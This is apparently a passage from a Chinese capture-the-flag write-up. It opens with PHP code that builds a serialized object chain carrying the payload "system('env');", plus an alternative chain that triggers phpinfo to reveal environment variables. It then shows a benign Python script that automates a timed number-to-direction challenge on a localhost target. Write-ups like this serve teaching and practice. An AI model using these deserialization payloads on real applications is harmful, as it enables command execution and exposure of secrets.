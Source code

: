 ```PHP
}

class class002 {
    private $sec;
    
    public function __construct()
    {
        $this->sec = new class003;
    }
}

class class003 {
    public $mystr;
    
    public function __construct()
    {
        $this->mystr = "system('env');";
    }
}

echo urlencode(@serialize(new class000));
```

非预期解：

```PHP
<?php
class class000 {
    private $payl0ad = 1;
    protected $what="phpinfo";
}
echo urlencode(serialize(new class000()));
```

查看环境变量即可

## 勇闯铜人阵

这题没有什么可以多说的，目标就是把题目给的数字翻译成中文。但是由于时间限制 3 秒，我觉得一般人的手速加网速不太好做到手打全部搞定，所以一般需要一个脚本。这里给出我自己的 python 脚本：

```python
import re
from pydash import trim
import requests
from bs4 import BeautifulSoup
url1 = "http://localhost:40763/restart"
url2 = "http://localhost:40763/"

sess = requests.session()
direct_list = ["北方", "东北方", "东方", "东南方", "南方", "西南方", "西方", "西北方"]

def parse_status(html):
    bs = BeautifulSoup(html, "html.parser")
    coin = trim(bs.find('h1', id='status').text)
    # 一枚硬币
    if len(coin) == 1:
        return direct_list[int(coin) - 1]
    # 两枚硬币
    else:
        nums = re.findall(r'\d', coin)
        return direct_list[int(nums[0]) - 1] + '一个，' + direct_list[int(nums[1]) - 1] + '一个'
        
if __name__ == "__main__":
    # restart
    sess.get(url=url1)
```